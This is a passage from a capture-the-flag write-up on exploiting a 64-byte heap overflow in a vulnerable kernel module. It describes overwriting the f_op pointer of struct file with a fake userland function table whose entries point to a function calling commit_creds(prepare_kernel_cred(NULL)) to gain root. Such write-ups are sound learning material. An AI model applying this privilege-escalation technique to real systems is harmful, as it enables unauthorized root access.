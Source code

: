 So if the user provided a valid request with Content-Type header, the kernel will:
1) allocate space for response of length Content-Type
2) fill the response prefix with VALID_RESPONSE_HDR of length 64 bytes
3) copy the request body after the header

This means that I could overflow the buffer by 64 bytes! This also is a reason of above kernel panic! Now the question was how can I exploit this bug!

## Exploit
Following hint given in the challenge description:

```
"Hint: Try controlling f_op in struct file or something."
```

I've decided I will try to overflow `struct file`. It is a good candidate as at offset 32 (<64) it has struct file_operations *f_op field which is a pointer to virtual function table:

```c
struct file {
	/*
	 * fu_list becomes invalid after file_free is called and queued via
	 * fu_rcuhead for RCU freeing
	 */
	union {
		struct list_head	fu_list;
		struct rcu_head 	fu_rcuhead;
	} f_u; // 16 bytes
	struct path		f_path; // 16 bytes
#define f_dentry	f_path.dentry
#define f_vfsmnt	f_path.mnt
	const struct file_operations	*f_op;
    [...]
```

So the idea is to create a fake virtual function table in userland and fill it with address of malicious function:

```c
uint64_t g_escalated;
uint64_t g_fake_fops[20];

void escalate()
{
    commit_creds(prepare_kernel_cred(NULL));
    g_escalated = 1;
}

int init()
{
    [...]    
    g_escalated = 0;
    for (int i = 0; i < 20; ++i)
    {
        g_fake_fops[i] = (uint64_t)&escalate;
    }
    [...]
}
```
